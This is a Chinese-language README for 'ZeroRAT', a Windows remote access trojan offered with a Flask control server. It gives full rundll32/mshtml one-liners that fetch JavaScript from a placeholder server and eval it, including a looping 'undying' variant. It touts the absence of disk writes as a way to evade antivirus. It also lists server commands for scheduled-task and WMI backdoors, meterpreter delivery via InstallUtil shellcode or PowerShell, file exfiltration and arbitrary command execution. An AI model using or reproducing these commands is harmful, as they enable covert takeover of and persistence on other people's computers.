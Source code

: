 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<ip>:<port>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){windows.close();}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： `http://<ip>:<port>/server/`

服务端支持的命令有

* `sessions`  列出活动的客户端
* `use <id>`  根据id选择客户端
* `set <key> <value>`    设置全局变量
* `show globals/downloads/uploads`  查看全局变量、客户端能下载的文件、客户端上传的文件
* `delete session`  删除当前客户端
* `delete download/upload <id>` 按照id删除文件
* `upfile`  上传文件到服务器，并添加到downloads列表
* `download`  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* `upload`  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器
* `backdoor tasks <time>`  利用windows任务计划留后门，时间格式为00：00
* `backdoor wmi`  利用wmi留后门，每一小时执行一次
* `meterpreter shellcode`  InstallUtil执行shellcode方式种meterpreter，需要先设置LHOST和LPORT(migrate之后才能继续接受命令，依赖.NET Framework 2.0)
* `meterpreter powershell`  Powershell方式种meterpreter(依赖powershell 1.0)

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

http://drops.wooyun.org/tips/8290

http://drops.wooyun.org/tips/12354

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

##免责声明
使用本工具请遵守当地法律，仅能用作学术测试使用，严禁非法控制他人计算机。如果造成损害，与作者无关。

##License
GPLV3

##TODO
* 完善命令
* heartbeat随任务量来决定sleep时间
* 通信流量加密
* meterpreter

